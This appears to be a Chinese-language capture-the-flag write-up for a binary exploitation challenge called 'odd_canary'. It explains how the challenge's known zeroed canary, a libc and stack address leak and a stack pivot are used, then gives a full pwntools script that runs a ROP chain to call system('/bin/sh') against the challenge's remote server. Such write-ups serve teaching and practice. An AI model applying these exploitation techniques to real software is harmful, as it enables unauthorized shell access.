

# odd_canary

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.10|

## 解题思路

注意有一个`before_main`是“构造器”，会在`main`之前调用，将canary设为0，这也就意味着
canary已知。

看到程序主菜单有good, vuln, exit三个功能，已知在bss上，符号`name`和`bss`紧邻，
那我们进入`good_news`后，只要输入0x20个字符填满`name`，就可以在下一次循环中读取到
`bss`上存放的`puts`地址拿到libc。为了拿到栈地址，我们从`exit_a`函数中，
控制栈指针放到`bss`上，这样再进入一次`good_news`就可以泄露栈地址。

最后进入`vuln`打栈溢出。由于只溢出到返回地址的地方，因此结合栈地址可以打栈迁移，
供我们输入的空间刚好可以执行`system("/bin/sh")`。由于调用`system`，需要注意栈平衡。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './odd_canary'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote("pwn-3c371156cb.challenge.xctf.org.cn", 9999, ssl=True)
    libc = ELF('/libraries/2.35-0ubuntu3.10_amd64/libc.so.6')

    def news(buf: bytes) -> bytes:
        t.sendlineafter(b'good/vuln', b'good')
        t.recvuntil(b'good news,')
        name = t.recvuntil(b' ', True)
        t.send(buf)
        return name

    def vuln(buf: bytes):
        t.sendlineafter(b'good/vuln', b'vuln')
        t.sendafter(b'payload', buf)
        assert buf.startswith(b'exec')

    def not_exit(yes: bool):
        t.sendlineafter(b'good/vuln', b'exit')
        t.sendlineafter(b'Are you', b'y' if yes else b'n')

    news(b'a' * 0x20)
    data = news(b'a' * 0x20)
    libc_base = u64(data[0x20:0x26] + b'\0\0') - libc.symbols['puts']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    not_exit(False)
    data = news(b' ' * 0x20)
    stack = u64(data[0x20:0x26] + b'\0\0') - 0x27 + 8
    success(f'About to pivot stack to {stack:#x}')

    gadgets = ROP(libc)
    vuln(flat(
        b'exec'.ljust(8), 0,
        gadgets.rdi.address, next(libc.search(b'/bin/sh')), libc.symbols['system'],
        0, stack, 0x4014b6, # leave; ret
    ))

    t.clean()
    t.interactive()
    t.close()
```


